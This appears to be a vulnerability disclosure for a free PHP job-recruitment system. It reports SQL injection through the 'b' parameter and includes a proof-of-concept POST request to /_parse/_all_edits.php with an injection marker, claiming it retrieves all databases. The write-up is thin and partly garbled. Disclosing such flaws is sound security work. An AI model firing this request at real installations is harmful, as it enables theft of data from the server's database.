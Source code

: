 # job-recruitment-in-php has sql injection vulnerability in $b parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
$b parameter

## describe

An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows:  $b parameter . This function executes the urle parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

$b parameter.When the parameter value of   $b parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226202336350](https://github.com/user-attachments/assets/ed117fef-0963-4f13-a322-6752968ae138)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=bio_update&b=1*
```

**Result**

get all databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
